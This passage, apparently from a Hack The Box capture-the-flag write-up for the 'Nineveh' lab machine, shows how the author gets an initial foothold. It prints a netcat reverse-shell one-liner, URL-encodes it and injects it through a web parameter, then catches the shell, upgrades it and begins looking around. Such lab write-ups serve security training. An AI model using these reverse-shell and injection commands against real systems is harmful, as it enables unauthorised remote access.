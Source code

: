 ## Initial Shell

Time to get a reverse shell, grab this one from [PenTestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and change to my IP:

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 1234 >/tmp/f
```

Now URL encode it:

```text
rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.21+1234+>/tmp/f
```

Start NC listening and then paste the URL in to the website as before:

```text
http://10.10.10.43/department/manage.php?notes=/var/tmp/ninevehNotes.php&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2%3E%261|nc+10.10.14.21+1234+%3E/tmp/f
```

Switch back to terminal and we have a shell:

```text
root@kali:~/htb/nineveh# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.43] 46536
```

Upgrade to a fully interactive shell:

```text
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@nineveh:/var/www/html/department$ ^Z
[1]+  Stopped                 nc -nlvp 1234
root@kali:~/htb/nineveh# stty raw -echo
root@kali:~/htb/nineveh# nc -nlvp 1234
```

We can see the user flag but haven't got the rights to read it yet:

```text
www-data@nineveh:/var/www/html/department$ ls -l /home/amrois/

-rw------- 1 amrois amrois 33 Jul  2  2017 user.txt
www-data@nineveh:/var/www/html/department$ cat /home/amrois/user.txt
cat: /home/amrois/user.txt: Permission denied
```

After having a look around I find a non-standard folder /report with txt files in it:

```text
www-data@nineveh:/var/www/html/department$ ls -l /report/

-rw-r--r-- 1 amrois amrois 4807 Jun 22 17:00 report-20-06-22:17:00.txt
-rw-r--r-- 1 amrois amrois 4807 Jun 22 17:01 report-20-06-22:17:01.txt
-rw-r--r-- 1 amrois amrois 4807 Jun 22 17:02 report-20-06-22:17:02.txt
```
